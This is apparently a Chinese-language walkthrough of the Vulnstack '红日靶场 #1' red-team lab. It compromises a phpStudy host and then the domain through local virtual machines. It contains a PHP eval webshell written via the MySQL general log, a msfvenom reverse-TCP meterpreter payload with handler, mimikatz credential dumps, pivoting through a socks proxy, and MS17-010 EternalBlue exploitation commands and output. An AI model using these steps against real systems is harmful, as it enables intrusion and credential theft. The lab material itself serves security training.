




# 红日靶场 #1

:::note

[ATT&CK 红队评估实战靶场 一](http://vulnstack.qiyuanxuetang.net/vuln/detail/2/)

|   标签   |                   信息                    |
| :------: | :---------------------------------------: |
|   作者   |                  hongri                   |
| 创建时间 |         2019 年 10 月 20 日 14:05         |
|   标签   | 内网渗透 , Kill Chain , 域渗透 , 威胁情报 |

虚拟机密码

```plaintext
hongrisec@2019
```

:::

## 靶场部署

将压缩包进行解压，应该能够得到

```plaintext
D:.
├─vulnstack-Win2K3 Metasploitable
│  └─caches
│      └─GuestAppsCache
│          ├─appData
│          └─launchMenu
├─vulnstack-win7
│  └─caches
│      └─GuestAppsCache
│          ├─appData
│          └─launchMenu
└─vulnstack-winserver08
    └─caches
        └─GuestAppsCache
            ├─appData
            └─launchMenu
```

加载各个文件夹内的 `.vmx` 文件，即可导入虚拟机


同时，在网站上看到整体的网络拓扑


先启动虚拟机，查看各个虚拟机的 ip 地址（Vmware Workstation 的控制台视图下方就有）

|          Machine           | IP Address #1  |  IP Address #2  |
| :------------------------: | :------------: | :-------------: |
|       Windows 7 x64        | 192.168.52.143 | 192.168.200.128 |
| Windows Server 2008 R2 x64 | 192.168.52.138 |                 |
|   Win2K3 Metasploitable    | 192.168.52.141 |                 |

根据信息，创建一个 Host-Only 网卡，ip 地址设置为 `192.168.52.0/24`



然后除了 `Windows 7 x64` 加上一块 `NAT` 模式的网卡，其他虚拟机加的均是 `Host-Only` 模式的网卡





启动三台虚拟机之后，进入三台虚拟机，均执行一次登陆操作，并触发密码安全规则，修改密码

:::warning

建议先对两台 Windows Server 进行以上操作，再对 `Windows 7 x64` 进行操作，以免触发未知的域配置错误

:::

最终成功配置






最后，在 `Windows 7 x64` 虚拟机中，打开 `C:\phpStudy` 目录，启动 phpstudy 环境


环境就配置成功了

## 信息搜集

攻击机由于只能接触到 `Windows 7 x64` 这台靶机，于是先对这台靶机下手

```plaintext title="sudo nmap -A --min-rate=5000 -T5 -p- 192.168.200.128"
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
|_http-title: phpStudy \xE6\x8E\xA2\xE9\x92\x88 2014
135/tcp  open  msrpc   Microsoft Windows RPC
3306/tcp open  mysql   MySQL (unauthorized)
```

尝试访问 web 服务


尝试对其进行目录爆破

```plaintext title="dirsearch -u 192.168.200.128"
[18:20:57] 200 -   71KB - /phpinfo.php
[18:20:58] 301 -  242B  - /phpMyAdmin  ->  http://192.168.200.128/phpMyAdmin/
[18:20:58] 301 -  242B  - /phpmyadmin  ->  http://192.168.200.128/phpmyadmin/
[18:20:59] 200 -   32KB - /phpmyadmin/ChangeLog
[18:20:59] 200 -    2KB - /phpmyadmin/README
[18:21:00] 200 -    4KB - /phpMyadmin/
[18:21:00] 200 -    4KB - /phpMyAdmin/
[18:21:00] 200 -    4KB - /phpmyAdmin/
[18:21:00] 200 -    4KB - /phpMyAdmin/index.php
[18:21:00] 200 -    4KB - /phpmyadmin/
[18:21:00] 200 -    4KB - /phpmyadmin/index.php
```

同时发现存在 3306 - mysql 服务，以及探针上存在 mysql 连接测试功能，尝试进行爆破，得到弱凭据

```plaintext
root:root
```

## webshell 部署

将 `mysql`+`phpmyadmin` 相结合，很容易就能联想到 mysql 日志文件写 webshell

参考 [sql 注入和 phpmyadmin 日志写入 webshell_从数据库中进行写 webshell 的前置条件为 - CSDN 博客](https://blog.csdn.net/weixin_54813510/article/details/130859673)

首先，先对环境进行探测

```sql
> show global variables like '%secure%'

Variable_name  Value
secure_auth  OFF
secure_file_priv  NULL
```

这里没有办法直接写文件，所以指定日志文件的路径

```sql
> show variables like '%general%'

Variable_name  Value
general_log  OFF
general_log_file  C:\phpStudy\MySQL\data\stu1.log

> set global general_log=ON

Variable_name  Value
general_log  OFF
general_log_file  C:\phpStudy\MySQL\data\stu1.log

> set global general_log_file='C:/phpStudy/WWW/shell.php'

None

> select '<?php @eval($_POST["shell"])?>'

None
```

尝试使用蚁剑进行连接


## 投放 c2

生成载荷

```bash
┌──(randark ㉿ kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.200.129 LPORT=9999 -f exe > aaa.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

将载荷上传到靶机，并建立监听

```bash
┌──(randark ㉿ kali)-[~]
└─$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.200.129
LHOST => 192.168.200.129
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.200.129:9999
[*] Sending stage (201798 bytes) to 192.168.200.128
[*] Meterpreter session 7 opened (192.168.200.129:9999 -> 192.168.200.128:2261) at 2024-03-12 19:33:43 +0800

meterpreter >
```

处理一下中文乱码

```bash
C:\>chcp 65001
chcp 65001
Active code page: 65001
```

## 网络信息搜集

```bash
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 11
============
Name         : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:a7:c1:a8
MTU          : 1500
IPv4 Address : 192.168.52.143
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::fcff:cf71:1487:9c27
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 12
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:c0a8:348f
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 14
============
Name         : Bluetooth Adapter
Hardware MAC : 4c:49:6c:2e:05:b2
MTU          : 1500
IPv4 Address : 169.254.255.214
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::b1fb:3116:3b18:ffd6
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 15
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280


Interface 16
============
Name         : Microsoft ISATAP Adapter #3
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a9fe:81ba
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 17
============
Name         : Microsoft ISATAP Adapter #4
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280


Interface 18
============
Name         : Microsoft ISATAP Adapter #5
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:c0a8:c880
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 19
============
Name         : Microsoft ISATAP Adapter #6
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280


Interface 22
============
Name         : TAP-Windows Adapter V9
Hardware MAC : 00:ff:44:8d:cb:b5
MTU          : 1500
IPv4 Address : 169.254.135.129
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::480f:c25c:1f43:8781
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 23
============
Name         : TAP-Windows Adapter V9 #2
Hardware MAC : 00:ff:56:0b:ea:fc
MTU          : 1500
IPv4 Address : 169.254.99.189
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::4d82:616f:441c:63bd
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 24
============
Name         : Npcap Loopback Adapter
Hardware MAC : 02:00:4c:4f:4f:50
MTU          : 1500
IPv4 Address : 169.254.129.186
IPv4 Netmask : 255.255.0.0
IPv6 Address : fe80::b461:ccad:e30f:81ba
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 26
============
Name         : Intel(R) PRO/1000 MT Network Connection #3
Hardware MAC : 00:0c:29:a7:c1:b2
MTU          : 1500
IPv4 Address : 192.168.200.128
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::b021:42bf:e3dc:3942
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

找到内网网段 `192.168.52.0/24`

尝试直接借助 Metasploit 直接提权

```bash
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 域信息搜集

既然已经得到了 `NT AUTHORITY\SYSTEM` 用户权限的话，那么就可以尝试获取域的信息

```bash title="获取域的凭据信息"
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            (vincent.letoux@gmail.com)
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  LM                                NTLM                              SHA1
--------       ------  --                                ----                              ----
Administrator  GOD     edea194d76c77d87d5f7fffc086227d3  81be2f80d568100549beac645d6a7141  216d52c4efa68532a98c8cbe2b492634d175fa84
STU1$          GOD                                       a2aae427277fafb0655d0a015d93b31d  3cb6a0c7488fdaeaa0e54e5e50a2cea4d2aed0bf

wdigest credentials
===================

Username       Domain  Password
--------       ------  --------
(null)         (null)  (null)
Administrator  GOD     hongrisec@2020
STU1$          GOD     55 bb da 11 1c 19 32 70 d5 18 4c a2 19 e7 0d f4 01 b8 fe 7f 75 68 52 f9 7d d9 37 03 87 73 99 bf 8f e7 9f bf 45 00 60 28 69 72 9a 8d 59 f3 f6 01 f8 9b 99 58 fd 58 5b e8 e2 46 b1 5b 34
                       a1 69 bf aa 31 f5 77 d5 78 51 db 45 db f6 c8 9a f0 8e 21 b8 0c 4b 86 b4 ec 11 17 98 e0 4f a9 65 7a 26 bf a8 3a f9 d2 6e af 30 65 e0 68 b1 08 9d 4d 4f 01 47 7d 96 cc 74 97 47 8b 05 a6
                       a4 c6 8c 27 14 7c c4 19 51 9a 2d d6 4b b8 1a 0d 28 05 0c ab 53 16 98 4a 2a bb cd 7e 12 3f b6 a8 fb f6 9d 3d 5a 8b af af 00 66 14 65 ca 85 04 9a 80 8b 13 f5 8f 7a 8c 22 91 ed b2 b7 a4
                       b2 a9 21 59 8a e2 9f 23 a7 1b c8 ef d2 c6 ba 80 e8 1f e5 41 04 40 31 9e eb 0a 21 f0 1f 4c 11 aa bd 25 51 64 7b c7 a4 e5 47 08 94 42 46 90 43 06 17 35 5c 0b b4 c4 cc e4 0e

tspkg credentials
=================

Username       Domain  Password
--------       ------  --------
Administrator  GOD     hongrisec@2020

kerberos credentials
====================

Username       Domain   Password
--------       ------   --------
(null)         (null)   (null)
Administrator  GOD.ORG  hongrisec@2020
stu1$          GOD.ORG  55 bb da 11 1c 19 32 70 d5 18 4c a2 19 e7 0d f4 01 b8 fe 7f 75 68 52 f9 7d d9 37 03 87 73 99 bf 8f e7 9f bf 45 00 60 28 69 72 9a 8d 59 f3 f6 01 f8 9b 99 58 fd 58 5b e8 e2 46 b1 5b 34
                         a1 69 bf aa 31 f5 77 d5 78 51 db 45 db f6 c8 9a f0 8e 21 b8 0c 4b 86 b4 ec 11 17 98 e0 4f a9 65 7a 26 bf a8 3a f9 d2 6e af 30 65 e0 68 b1 08 9d 4d 4f 01 47 7d 96 cc 74 97 47 8b 05 a
                        6 a4 c6 8c 27 14 7c c4 19 51 9a 2d d6 4b b8 1a 0d 28 05 0c ab 53 16 98 4a 2a bb cd 7e 12 3f b6 a8 fb f6 9d 3d 5a 8b af af 00 66 14 65 ca 85 04 9a 80 8b 13 f5 8f 7a 8c 22 91 ed b2 b7
                        a4 b2 a9 21 59 8a e2 9f 23 a7 1b c8 ef d2 c6 ba 80 e8 1f e5 41 04 40 31 9e eb 0a 21 f0 1f 4c 11 aa bd 25 51 64 7b c7 a4 e5 47 08 94 42 46 90 43 06 17 35 5c 0b b4 c4 cc e4 0e
```

查看域控信息

```bash
C:\Windows\system32>net user /domain
net user /domain
The request will be processed at a domain controller for domain god.org.


User accounts for \\owa.god.org

-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt
ligang                   liukaifeng01
The command completed with one or more errors.


C:\Windows\system32>net view
net view
Server Name            Remark

-------------------------------------------------------------------------------
\\OWA
\\ROOT-TVI862UBEH
The command completed successfully.

C:\Windows\system32>net time /domain
net time /domain
Current time at \\owa.god.org is 2024/3/12 22:29:29

The command completed successfully.

C:\Windows\system32>net user /domain
net user /domain
The request will be processed at a domain controller for domain god.org.


User accounts for \\owa.god.org

-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt
ligang                   liukaifeng01
The command completed with one or more errors.
```

## 搭建内网转发

直接使用 Metasploit 内建的转发模块

```bash
meterpreter > run autoroute -s 192.168.52.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.52.0/255.255.255.0...
[+] Added route to 192.168.52.0/255.255.255.0 via 192.168.200.128
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.52.0       255.255.255.0      Session 1
```

退出当前会话

```bash
meterpreter > bg
[*] Backgrounding session 1...
```

然后执行 socks 代理模块

```bash
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > exploit
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

成功启动 `0.0.0.0:1080` 的 socks 代理服务器

## 内网信息搜集

保持原先的 Msfconsole 会话，新开一个 Kali Terminal 会话

编辑 `/etc/proxychains4.conf` 配置文件

```plaintext
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 1080
```

然后 proxychains 启动 fscan

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains ./tools/fscan-1.8.3/fscan -h 192.168.52.0/24
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 192.168.52.1    is alive
(icmp) Target 192.168.52.138  is alive
(icmp) Target 192.168.52.141  is alive
[*] Icmp alive hosts len is: 3
192.168.52.138:135 open
192.168.52.141:445 open
192.168.52.138:445 open
192.168.52.141:135 open
192.168.52.1:139 open
192.168.52.138:80 open
192.168.52.138:139 open
192.168.52.141:139 open
192.168.52.1:445 open
192.168.52.141:7002 open
192.168.52.1:135 open
192.168.52.141:7001 open
192.168.52.138:88 open
192.168.52.141:21 open
192.168.52.141:8098 open
192.168.52.141:8099 open
[*] alive ports len is: 16
start vulscan
[*] NetInfo
[*]192.168.52.1
   [->]DESKTOP-7HGIVVS
   [->]192.168.200.1
   [->]192.168.56.1
   [->]192.168.52.1
   [->]10.37.171.34
   [->]192.168.137.1
[*] NetInfo
[*]192.168.52.141
   [->]root-tvi862ubeh
   [->]192.168.52.141
[*] NetInfo
[*]192.168.52.138
   [->]owa
   [->]192.168.52.138
[*] WebTitle http://192.168.52.141:7002 code:200 len:2632   title:Sentinel Keys License Monitor
[+] MS17-010 192.168.52.141     (Windows Server 2003 3790)
[+] MS17-010 192.168.52.138     (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] NetBios 192.168.52.138  [+] DC:owa.god.org                   Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[*] WebTitle http://192.168.52.141:8099 code:403 len:1409   title:The page must be viewed over a secure channel
[+] ftp 192.168.52.141:21:anonymous
[*] WebTitle https://192.168.52.141:8098 code:401 len:1656   title:You are not authorized to view this page
[*] WebTitle http://192.168.52.138     code:200 len:689    title:IIS7
```

直接定位到漏洞信息

```bash
[+] MS17-010 192.168.52.141     (Windows Server 2003 3790)
[+] MS17-010 192.168.52.138     (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[+] ftp 192.168.52.141:21:anonymous
```

## 192.168.200.141 - EternalBlue

直接开打

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains msfconsole -q
msf6 > search ms17_010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection


Interact with a module by name or index. For example info 3, use 3 or use auxiliary/scanner/smb/smb_ms17_010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.52.141
RHOSTS => 192.168.52.141
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17

[*] Started reverse TCP handler on 192.168.200.129:4444
[*] 192.168.52.141:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.52.141:445    - Host is likely VULNERABLE to MS17-010! - Windows Server 2003 3790 x86 (32-bit)
[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.52.141:445 - The target is vulnerable.
[-] 192.168.52.141:445 - Exploit aborted due to failure: no-target: This module only supports x64 (64-bit) targets
[*] Exploit completed, but no session was created.
```

发现 plantform 有点问题，目标机器是 x86 架构的，换一个 payload

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/admin/smb/ms17_010_command
msf6 auxiliary(admin/smb/ms17_010_command) > set rhost 192.168.200.141
rhost => 192.168.200.141
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x8d1eed60
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "net group"Domain Admins"/domain":

The request will be processed at a domain controller for domain god.org.

Group name     Domain Admins
Comment        ???????

Members

-------------------------------------------------------------------------------
Administrator            OWA$
The command completed successfully.

[*] 192.168.52.141:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## 192.168.200.138 - EternalBlue

同上
